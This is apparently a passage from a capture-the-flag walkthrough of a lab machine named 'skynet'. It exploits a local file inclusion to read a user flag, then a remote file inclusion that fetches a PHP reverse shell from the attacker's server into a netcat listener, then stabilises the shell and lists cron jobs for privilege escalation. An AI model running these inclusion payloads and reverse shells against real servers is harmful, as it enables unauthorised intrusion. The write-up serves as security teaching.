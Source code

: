 With this we can find that `milesdyson` is a user inside this machine. We can exploit the LFI vulnerability to read the user flag inside milesdyson's home directory

```
http://10.10.32.183/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../home/milesdyson/user.txt

7ce5c2109a40f95809928360[redacted] 
```

We can now exploit the RFI vulnerability to get a reverse shell inside the machine and execute it. Download the [PentestMonkey PHP reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)  and modify it as usual. Set up a netcat listener

```
$ nc -lnvp 4242

Listening on [0.0.0.0] (family 0, port 4242)
```

and a simple HTTP python3 server

```
$ python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Send this request and get a connection

```
http://10.10.32.183/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.220.153:8000/php-reverse-shell.php
```

Let's stabilize our shell

```
$ whoami
www-data
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@skynet:/$ ^Z
[1]+  Stopped                 nc -lnvp 4242
$ stty raw -echo

www-data@skynet:/$ export TERM=xterm
www-data@skynet:/$ 
```

We can see that this machine has multiple cronjob running

```
www-data@skynet:/$ cat /etc/crontab

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```
